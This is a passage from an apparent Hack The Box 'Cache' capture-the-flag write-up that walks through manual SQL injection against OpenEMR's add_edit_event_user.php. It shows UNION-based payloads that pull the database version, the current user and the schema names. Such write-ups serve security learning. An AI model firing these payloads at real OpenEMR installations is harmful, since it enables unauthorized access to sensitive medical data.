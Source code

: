 ### 3. SQL Injection Enumeration, First Set of Credentials

Let's do this manually instead of using `sqlmap`. We will begin by finding out what SQL server this is running on. 

```sql
/add_edit_event_user.php?pid=1' UNION SELECT @@version,2,3,4,5 -- -
```

![1418942a3e7d91caf23056ef99f2a494.png](/images/htb-cache/dbac0b9ba51c4724b7ece71490e1e962.png)

Since this box is running on Ubuntu, we can assume that it is running on MySQL. 

Next, let's get the user which is running the queries on this SQL server. 

```sql
/add_edit_event_user.php?pid=1' UNION SELECT user(),2,3,4,5 -- -
```

![2e86d63d0586a994c99f79e106c85781.png](/images/htb-cache/1983f0fb6ef64be1b0ba66b32c7f2ea8.png)

Next, let's enumerate the databases in OpenEMR. 

```sql
/add_edit_event_user.php?pid=1' UNION SELECT schema_name,2,3,4,5 from information_schema.schemata -- -
```
